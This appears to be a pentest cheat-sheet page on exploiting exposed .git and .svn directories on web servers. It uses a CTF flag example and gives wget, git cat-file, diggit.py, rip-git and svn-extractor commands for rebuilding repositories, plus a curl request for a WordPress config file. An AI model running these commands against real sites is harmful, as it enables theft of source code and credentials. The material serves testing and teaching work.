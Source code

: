 # Insecured-source-code-management
Insecured source code management


# GIT - Source management

## Github example with a .git
1. Check 403 error (Forbidden) for .git or even better : directory listing

2. Git saves all informations in log file .git/logs/HEAD (try 'head' too)
```
0000000000000000000000000000000000000000 15ca375e54f056a576905b41a417b413c57df6eb root <root@dfc2eabdf236.(none)> 1455532500 +0000        clone: from https://github.com/fermayo/hello-world-lamp.git
15ca375e54f056a576905b41a417b413c57df6eb 26e35470d38c4d6815bc4426a862d5399f04865c Michael <michael@easyctf.com> 1489390329 +0000        commit: Initial.
26e35470d38c4d6815bc4426a862d5399f04865c 6b4131bb3b84e9446218359414d636bda782d097 Michael <michael@easyctf.com> 1489390330 +0000        commit: Whoops! Remove flag.
6b4131bb3b84e9446218359414d636bda782d097 a48ee6d6ca840b9130fbaa73bbf55e9e730e4cfd Michael <michael@easyctf.com> 1489390332 +0000        commit: Prevent directory listing.
```

3. Access to the commit based on the hash -> a directory name (first two signs from hash) and filename (rest of it).git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c,
```
# create a .git directory
git init test
cd test/.git

# download the file
wget http://xxx.web.xxx.com/.git/objects/26/e35470d38c4d6815bc4426a862d5399f04865c
mkdir .git/object/26
mv e35470d38c4d6815bc4426a862d5399f04865c .git/objects/26/

# display the content of the file
git cat-file -p 26e35470d38c4d6815bc4426a862d5399f04865c
	tree 323240a3983045cdc0dec2e88c1358e7998f2e39
	parent 15ca375e54f056a576905b41a417b413c57df6eb
	author Michael <michael@easyctf.com> 1489390329 +0000
	committer Michael <michael@easyctf.com> 1489390329 +0000
	Initial.
```

4. Access the tree 323240a3983045cdc0dec2e88c1358e7998f2e39
```
wget http://xxx.web.xxx.com/.git/objects/32/3240a3983045cdc0dec2e88c1358e7998f2e39
mkdir .git/object/32
mv 3240a3983045cdc0dec2e88c1358e7998f2e39 .git/objects/32/

git cat-file -p 323240a3983045cdc0dec2e88c1358e7998f2e39
	040000 tree bd083286051cd869ee6485a3046b9935fbd127c0        css
	100644 blob cb6139863967a752f3402b3975e97a84d152fd8f        flag.txt
	040000 tree 14032aabd85b43a058cfc7025dd4fa9dd325ea97        fonts
	100644 blob a7f8a24096d81887483b5f0fa21251a7eefd0db1        index.html
	040000 tree 5df8b56e2ffd07b050d6b6913c72aec44c8f39d8        js
```

5. Read the data (flag.txt)
```
wget http://xxx.web.xxx.com/.git/objects/cb/6139863967a752f3402b3975e97a84d152fd8f
mkdir .git/object/cb
mv 6139863967a752f3402b3975e97a84d152fd8f .git/objects/32/
git cat-file -p cb6139863967a752f3402b3975e97a84d152fd8f
```



## Automatic way : diggit.py
```
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

## Alternative way : rip-git
```
perl rip-git.pl -v -u "http://edge1.web.*****.com/.git/"   

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```




# SVN - Source management
## SVN example (Wordpress)
```
curl http://blog.domain.com/.svn/text-base/wp-config.php.svn-base
```

1. Download the svn database
http://server/path_to_vulnerable_site/.svn/wc.db
```
INSERT INTO "NODES" VALUES(1,'trunk/test.txt',0,'trunk',1,'trunk/test.txt',2,'normal',NULL,NULL,'file',X'2829',NULL,'$sha1$945a60e68acc693fcb74abadb588aac1a9135f62',NULL,2,1456056344886288,'bl4de',38,1456056261000000,NULL,NULL);
```

2. Download interesting files
remove \$sha1\$ prefix
add .svn-base postfix
use first two signs from hash as folder name inside pristine/ directory (94 in this case)
create complete path, which will be: http://server/path_to_vulnerable_site/.svn/pristine/94/945a60e68acc693fcb74abadb588aac1a9135f62.svn-base


## Automatic way -
```
git clone https://github.com/anantshri/svn-extractor.git
python svn-extractor.py –url “url with .svn available”
```

## Thanks to
* bl4de, https://github.com/bl4de/research/tree/master/hidden_directories_leaks
* bl4de, https://github.com/bl4de/security-tools/tree/master/diggit
